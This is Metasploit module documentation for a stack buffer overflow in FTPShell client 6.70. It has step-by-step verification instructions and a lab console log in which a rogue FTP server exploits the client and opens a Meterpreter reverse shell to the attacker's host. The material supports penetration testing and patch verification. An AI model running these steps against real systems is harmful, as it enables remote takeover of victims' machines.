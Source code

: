 ## Vulnerable Application

FTPShell client 6.70 (Enterprise edition) is affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code on the target. The vulnerability is caused by improper bounds checking of the PWD command. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [ftpshell.com](http://www.ftpshell.com/downloadclient.htm).

## Verification Steps
    1. Install a vulnerable FTPShell client 6.70
    2. Start `msfconsole`
    3. Do `use exploit/windows/ftp/ftpshell_cli_bof`
    4. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
    5. Do `set LHOST ip`
    6. Do `exploit`
    7. Connect to the FTP server using FTPShell client 6.70
    8. Verify the Meterpreter session is opened

## Scenarios

### FTPShell client 6.70 on Windows 7 SP1 x64

```
msf > use exploit/windows/ftp/ftpshell_cli_bof 
msf exploit(windows/ftp/ftpshell_cli_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/ftp/ftpshell_cli_bof) > set LHOST 172.16.106.129 
LHOST => 172.16.106.129
msf exploit(windows/ftp/ftpshell_cli_bof) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.106.129:4444 
[*] Please ask your target(s) to connect to 172.16.106.129:21
[*] Server started.
msf exploit(windows/ftp/ftpshell_cli_bof) > [*] 172.16.106.128 - connected.
[*] 172.16.106.128 - Response: Sending 220 Welcome
[*] 172.16.106.128 - Request: USER anonymous
[*] 172.16.106.128 - Response: sending 331 OK
[*] 172.16.106.128 - Request: PASS anonymous@anon.com
[*] 172.16.106.128 - Response: Sending 230 OK
[*] 172.16.106.128 - Request: PWD
[*] 172.16.106.128 - Request: Sending the malicious response
[*] Sending stage (179779 bytes) to 172.16.106.128
[*] Meterpreter session 1 opened (172.16.106.129:4444 -> 172.16.106.128:49263) at 2018-06-27 11:19:38 -0400

msf exploit(windows/ftp/ftpshell_cli_bof) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
